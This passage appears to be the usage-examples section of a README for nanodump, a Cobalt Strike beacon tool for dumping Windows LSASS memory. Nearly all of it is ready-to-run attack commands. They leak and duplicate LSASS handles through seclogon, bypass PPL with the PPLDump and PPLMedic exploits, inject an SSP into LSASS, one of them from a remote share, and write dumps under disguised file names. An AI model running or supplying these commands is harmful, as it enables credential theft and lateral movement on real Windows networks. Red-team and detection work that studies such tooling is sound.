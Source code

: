 Use the seclogon leak remote to leak an LSASS handle in a notepad process, duplicate that handle to get access to LSASS, then read it indirectly by creating a fork and download the dump  with a valid signature:
```
beacon> nanodump --seclogon-leak-remote C:\Windows\notepad.exe --fork --valid
```

Get a handle with seclogon leak local, read LSASS indirectly by using a fork and write the dump to disk with a valid signature (a nanodump binary will be uploaded!):
```
beacon> nanodump --seclogon-leak-local --fork --valid --write C:\Windows\Temp\lsass.dmp
```

Download the dump with an invalid signature (default):
```
beacon> nanodump
```

Duplicate an existing handle and write the dump to disk with an invalid signature:
```
beacon> nanodump --duplicate --write C:\Windows\Temp\report.docx
```

Get the PID of LSASS:
```
beacon> nanodump --getpid
```

Load nanodump in LSASS as an SSP (a nanodump binary will be uploaded!):
```
beacon> load_ssp
beacon> delete_file C:\Windows\Temp\[RANDOM].dll
```

Load nanodump in LSASS as an SSP remotely:
```
beacon> load_ssp \\10.10.10.10\openShare\nanodump_ssp.x64.dll
```

Dump LSASS bypassing PPL using the PPLDump exploit, duplicating the handle that csrss.exe has on LSASS:
```
beacon> nanodump_ppl_dump --duplicate --write C:\Windows\Temp\lsass.dmp
```

Dump LSASS bypassing PPL using the PPLMedic exploit, opening a low privileged handle to LSASS and then elevating it:
```
beacon> nanodump_ppl_medic --elevate-handle --write C:\Windows\Temp\lsass.dmp
```

Trick seclogon to open a handle to LSASS and duplicate it, then download the dump with an invalid signature:
```
beacon> nanodump --seclogon-duplicate
```

Make the WerFault.exe process create a full memory dump in the Temp folder:
```
beacon> nanodump --werfault C:\Windows\Temp\
```

